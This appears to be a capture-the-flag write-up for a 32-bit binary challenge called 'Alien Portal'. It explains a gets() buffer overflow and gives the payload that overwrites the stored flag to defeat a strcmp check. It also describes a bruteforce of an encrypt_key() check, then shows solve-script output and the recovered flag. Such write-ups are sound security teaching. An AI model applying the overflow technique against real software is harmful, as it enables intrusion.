 # Alien Portal

```
The fate of humanity rests in your hands.
We've managed to infiltrate an alien login portal, and we believe that they're hiding a flag in there.
Can you help us get in?
```
solves: *7* <br>
files given
- [vuln.exe](./vuln.exe)

`file` output
```sh
└─$ file vuln.exe
vuln.exe: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=9e95f0a128ef480097a01a842b5c645789f2e7e5, for GNU/Linux 3.2.0, not stripped
```
This is a `32bit` executable program <br>

`checksec` output
```sh
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
Lets decompile the program <br>
![decomp](./ghidra_main_decomp.png) <br>
It first reads the flag then takes user input. It compares `flag` with the `input`, that is taken in by `gets()` <br>
We are able to abuse `gets` to overwrite the `flag`, `ck`, and `local_14` variables, as well as overwrite the return address \
<br>
Lets run[^1] it on `gdb`, and try to find the offset. I'm using [pwndbg](https://github.com/pwndbg/pwndbg). \
However, when trying to get the offset, I keep getting an error: `<Could not read memory at 0x6175615d>`. It's probably something to do with `32bit` binary shenanigans. \
Luckily, you dont actually need to ret2win in order to solve the challenge. \
<br>
## Defeating `strcmp`
My idea is to defeat the `strcmp` check via overwriting the string. 
```c
int strcmp(const char *cs, const char *ct)
{
	unsigned char c1, c2;

	while (1) {
		c1 = *cs++;
		c2 = *ct++;
		if (c1 != c2)
			return c1 < c2 ? -1 : 1;
		if (!c1)
			break;
	}
	return 0;
}
```
Above is a `strcmp` implementation I found [here](https://elixir.bootlin.com/linux/latest/source/lib/string.c#L276).
Simply explained, it takes `cs` and `ct`, loops through the characters to compare them, and returns `0` if they are the same. the final `if` case leading to the `break` checks for a terminating NULL byte.  
We know that our `input` is only `6` characters long before it overflows to the `flag` variable, so I decided to change the `flag` variable to hold our own input, including the NULL terminating byte.
```py
payload = b'A'*5 + b'\x00' + b'A'*5 + b'\x00';
```
this means that `strcmp` will get two inputs of `AAAAA\x00` and `AAAAA\x00` and compare them[^2]. We dont have to know the length of the actual `flag`, as we are bringing in our own NULL terminating byte.  
## Defeating encrypt_key()
after defeating `strcmp`, we will arrive at this function: \
![twofa.png](./twofa.png) <br>
There does not seem to be any vulnerable code here, and just a key check. A look into the `encrypt_key()` function shows what this function actually does  
![encrypt_key.png](./encrypt_key.png) <br>
I made a bruteforce script[^3] here [gen.c](./gen.c). What it basically does is that it emulates the `encrypt_key()` function, and searches for values in the ASCII range that allows us to solve the final check.
<br>
The final solve script can be found here: [exp.py](./exp.py) 
```
└─$ python3 exp.py
[+] Opening connection to nc.lagncra.sh on port 8011: Done
b'Welcome to the alien portal!\r\n'
b'AAAAA\x00AAAAA\x00'
/mnt/d/CTFs/lnc/3.0/pwn/Alien Portal/exp.py:15: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.recvuntil('What is your password?: ')
b'}L}}\x00'
/mnt/d/CTFs/lnc/3.0/pwn/Alien Portal/exp.py:19: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.recvuntil('Please enter your personalized authentication code: ')
[*] Switching to interactive mode
Congratulations! Here is your flag: LNC2023{SecreT_Al13n_por7a1?}[*] Got EOF while reading in interactive
$
```

FLAG: `LNC2023{SecreT_Al13n_por7a1?}`

[^1]: When trying to run it, I got: `/mnt/d/CTFs/lnc/3.0/pwn/Alien Portal/vuln.exe: /lib/i386-linux-gnu/libc.so.6: version 'GLIBC_2.34' not found (required by /mnt/d/CTFs/lnc/3.0/pwn/Alien Portal/vuln.exe)` As it turns out, this was compiled for a newer `glibc` then my debian WSL has, so I had to run it on kali... Oh well!

[^2]: In all honesty, I believe that putting `\x00` as the input to overwrite all strings can be a easy way to do it if you dont know the actual offset, but lets aim to be accurate and precise!

[^3]: At first I didn't limit the search space, but after A LOT of fustration(of trying to get it to work on remote[it worked on my machine]), I decided it wouldn't hurt to get some "known good" values in the ASCII space... still no clue what happened there, but hey, the printable ASCII values worked!

